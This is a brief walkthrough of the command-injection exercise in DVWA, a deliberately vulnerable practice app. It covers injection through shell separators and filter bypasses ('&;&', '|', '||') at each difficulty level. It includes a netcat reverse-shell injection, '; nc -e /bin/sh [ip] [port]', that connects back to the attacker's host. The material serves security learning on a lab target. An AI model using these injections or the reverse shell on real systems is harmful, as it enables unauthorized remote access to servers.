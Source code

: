 # DVWA - Command Injection Solution

## Low level

Because it doesn't filter the input text, so we can use the injection to get more information form the server.

|command|descripes|
|-|-|
|;|Can do the command behind ';'|
|&&|After the first command successful do the second|
|\|\||After the first command failure do the second|

Usw the ';'

![](https://i.imgur.com/iYsY42z.png
Usw the '&&'

![](https://i.imgur.com/ZZYTz6Z.png)

We can use the `; nc -e /bin/sh [ip] [port]` to connect to the server.
We need to listen the port on our server and use the command injection to cennect.

![](https://i.imgur.com/Hi6c7fM.png)

## Medium level

We can see the source code, it will filter the ';' and '&&'. So we can use '&;&' to bypass.

![](https://i.imgur.com/zpjKHp6.png)

Or we can use the '||', '|' to bypass.

![](https://i.imgur.com/hdRWPMf.png)

## High level

As we can see there is a 'space' after '|' so we can use the '|' to bypass.

![](https://i.imgur.com/WNdJmM2.png)

Example

![](https://i.imgur.com/hEhzki6.png)

## Impossibel level

In this case we can see the source code.
It split the input by '.' and check the input.
If the input isn't a number it will echo 'ERROR: You have entered an invalid IP.'
So we don't have the way to bypass.

![](https://i.imgur.com/u7ieCLz.png)
